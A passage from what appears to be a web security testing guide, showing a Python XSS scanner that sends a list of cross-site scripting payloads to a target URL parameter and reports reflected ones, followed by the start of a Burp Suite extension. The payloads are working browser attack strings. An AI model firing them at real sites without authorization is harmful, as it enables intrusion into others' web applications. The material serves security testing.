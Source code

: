 ```python
            "<textarea onfocus=alert('XSS') autofocus>",
            "<keygen onfocus=alert('XSS') autofocus>",
            "<video><source onerror=alert('XSS')>",
            "<audio src=x onerror=alert('XSS')>",
            "<details open ontoggle=alert('XSS')>",
            "<marquee onstart=alert('XSS')>",
            "<math><mi//xlink:href=data:x,<script>alert('XSS')</script>>"
        ]
        
        results = []
        for payload in payloads:
            try:
                params = {param: payload}
                response = self.session.get(self.target_url, params=params, timeout=10)
                
                # Check if payload is reflected
                if payload in response.text:
                    results.append({
                        'payload': payload,
                        'reflected': True,
                        'status_code': response.status_code
                    })
                else:
                    results.append({
                        'payload': payload,
                        'reflected': False,
                        'status_code': response.status_code
                    })
            except Exception as e:
                results.append({'payload': payload, 'error': str(e)})
        
        return results

# Usage example
if __name__ == "__main__":
    scanner = XSSScanner("http://target.com/page")
    results = scanner.test_xss_payloads("search", "test")
    for result in results:
        if result.get('reflected'):
            print(f"Potential XSS: {result['payload']}")
```

### Automated Testing Tools

#### Burp Suite XSS Extension
```python
# burp-xss-extension.py
from burp import IBurpExtender, IScannerCheck, IScanIssue
from java.io import PrintWriter

class BurpExtender(IBurpExtender, IScannerCheck):
    def registerExtenderCallbacks(self, callbacks):
        self._callbacks = callbacks
        self._helpers = callbacks.getHelpers()
        callbacks.setExtensionName("XSS Scanner")
        callbacks.registerScannerCheck(self)
        
    def doPassiveScan(self, baseRequestResponse):
        return None
        
    def doActiveScan(self, baseRequestResponse, insertionPoint):
        # XSS payloads
        payloads = [
```